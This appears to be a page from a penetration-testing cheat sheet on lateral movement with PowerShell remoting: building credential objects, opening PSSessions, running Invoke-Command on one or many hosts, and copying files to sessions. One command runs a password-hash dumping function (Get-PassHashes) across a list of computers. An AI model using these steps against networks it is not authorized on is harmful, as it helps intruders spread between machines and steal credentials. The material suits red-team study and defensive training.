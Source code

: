 ## Lateral Movement Techniques

### PSSession
- Uses winrm / wmi
- Work with the `-Credential $creds` parameter.

#### Create credential object
```
$creds = get-credential

$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USERNAME>', $password)
```

#### Connect to machine
```
Enter-PSSession -Computername <COMPUTERNAME>
```

#### Connect to machine and save in session variable
```
$sess = New-PSSession -Computername <COMPUTERNAME>
Enter-PSSession $sess
```

#### Execute commands on a machine
```
Invoke-Command -Computername <COMPUTERNAME> -Scriptblock {<COMMAND>} 
Invoke-Command -Scriptblock {<COMMAND>} $sess
```

#### Load script on a machine
```
Invoke-Command -Computername <COMPUTERNAME> -FilePath <PATH>
Invoke-Command -FilePath <PATH> $sess
```

#### Run commands on multiple machines
```
Invoke-Command –Scriptblock {<COMMAND>} -ComputerName (Get-Content computers.txt)
```

#### Execute script on multiple machines
```
Invoke-Command –FilePath script.ps1 -ComputerName (Get-Content computers.txt)
```

#### Execute locally loaded function on remote machines:
```
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content computers.txt)
```

#### Copy item to PSSession
```
Copy-Item -ToSession $sess -Path <PATH> -Destination <DEST> -verbose
```
